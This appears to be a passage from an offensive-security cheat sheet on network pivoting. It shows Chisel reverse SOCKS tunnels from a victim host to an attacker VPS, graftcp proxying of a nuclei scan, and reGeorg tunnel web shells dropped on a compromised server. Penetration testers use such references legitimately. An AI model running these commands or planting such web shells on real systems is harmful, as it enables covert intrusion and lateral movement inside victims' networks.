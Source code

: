 ```ps1
# https://github.com/hmgle/graftcp

# Create a SOCKS5, using Chisel or another tool and forward it through SSH
(attacker) $ ssh -fNT -i /tmp/id_rsa -L 1080:127.0.0.1:1080 root@IP_VPS
(vps) $ ./chisel server --tls-key ./key.pem --tls-cert ./cert.pem -p 8443 -reverse 
(victim 1) $ ./chisel client --tls-skip-verify https://IP_VPS:8443 R:socks 

# Run graftcp and specify the SOCKS5
(attacker) $ graftcp-local -listen :2233 -logfile /tmp/toto -loglevel 6 -socks5 127.0.0.1:1080
(attacker) $ graftcp ./nuclei -u http://172.16.1.24
```

Simple configuration file for graftcp

```py
# https://github.com/hmgle/graftcp/blob/master/local/example-graftcp-local.conf
## Listen address (default ":2233")
listen = :2233
loglevel = 1

## SOCKS5 address (default "127.0.0.1:1080")
socks5 = 127.0.0.1:1080
# socks5_username = SOCKS5USERNAME
# socks5_password = SOCKS5PASSWORD

## Set the mode for select a proxy (default "auto")
select_proxy_mode = auto
```


## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg), the successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

Drop one of the following files on the server:

- tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```
